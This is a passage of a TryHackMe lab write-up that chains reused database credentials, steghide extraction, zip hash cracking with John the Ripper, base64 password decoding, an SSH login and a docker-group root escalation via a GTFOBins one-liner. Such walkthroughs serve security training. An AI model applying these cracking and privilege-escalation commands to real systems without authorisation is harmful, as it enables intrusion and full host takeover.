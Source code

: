 ![Pasted image 20241001193609.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241001193609.png)
**On the attacker machine** we can see the webpage
## The webportal
![Pasted image 20241001193722.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241001193722.png)
Using the credentials from  `mysql`.
![Pasted image 20241002191811.png|600](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002191811.png)
## Steganography
Download the image `hacker-with-laptop_23-2147985341.jpg` based in the hint, steganography is sus.
Check the file with `steghide`, if maybe it has en empty password:
```shell
steghide info hacker-with-laptop_23-2147985341.jpg
```
![Pasted image 20241002192351.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002192351.png)
We have a file, extract:
```shell
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```
![Pasted image 20241002192531.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002192531.png)
Trying to unzip with an empty password.
```shell
unzip backup.zip
```
![Pasted image 20241002192639.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002192639.png)
Try to crack the password
1. Get the hash
```shell
zip2john backup.zip > zip_hash.txt
```
![Pasted image 20241002192832.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002192832.png)

2. Crack the hash
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```
We found the password

Now unzip the file and we have
![Pasted image 20241002193648.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002193648.png)
In the code we have an base64 password
![Pasted image 20241002194033.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002194033.png)
Decode 
```shell
echo "I..........ZA==" | base64 -d
```
![Pasted image 20241002194239.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002194239.png)
## Logged as anurodh
Connect through `ssh`
![Pasted image 20241002194656.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002194656.png)
Check infro from us
![Pasted image 20241002195001.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002195001.png)
We are in the docker group and can escalate based in `GTFOBins`
```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
![Pasted image 20241002195434.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020241002195434.png)
Get the root flag